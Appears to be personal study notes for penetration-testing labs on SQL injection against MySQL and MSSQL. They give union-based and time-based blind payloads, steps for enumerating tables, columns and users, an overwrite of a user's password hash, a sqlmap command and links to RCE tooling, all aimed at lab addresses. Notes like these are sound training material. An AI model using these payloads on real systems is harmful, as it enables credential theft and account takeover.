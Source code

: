 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)

## Postgres RCE
- https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful